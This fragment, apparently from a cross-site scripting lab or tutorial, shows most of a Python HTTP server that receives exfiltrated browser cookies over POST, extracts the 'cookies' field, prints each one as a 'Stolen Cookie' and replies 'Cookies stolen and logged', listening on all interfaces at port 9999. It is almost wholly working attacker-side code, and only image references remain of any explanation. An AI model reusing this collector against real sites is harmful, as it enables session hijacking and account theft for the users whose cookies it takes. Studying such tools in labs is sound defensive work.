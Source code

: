 ```python

        # Parse and log the data, which might contain stolen cookies
        parsed_data = urllib.parse.parse_qs(post_data)
        if 'cookies' in parsed_data:
            stolen_cookie = parsed_data['cookies'][0]
            print(f"Stolen Cookie: {stolen_cookie}")

        # Send a response to the client
        self.send_response(200)
        self.send_header("Content-type", "text/html")
        self.send_header("Access-Control-Allow-Origin", "http://localhost:7777")
        self.end_headers()
        self.wfile.write(b"POST request received. Cookies stolen and logged.")

    def log_message(self, format, *args):
        # Overriding to suppress default logging (for clean output)
        return

# Set up and start the server on all interfaces (0.0.0.0) and port 9999
server = HTTPServer(('0.0.0.0', 9999), RequestHandler)
print("Server running on port 9999...")
server.serve_forever()
```

![alt text](images/image-10.png)

![alt text](images/image-11.png)
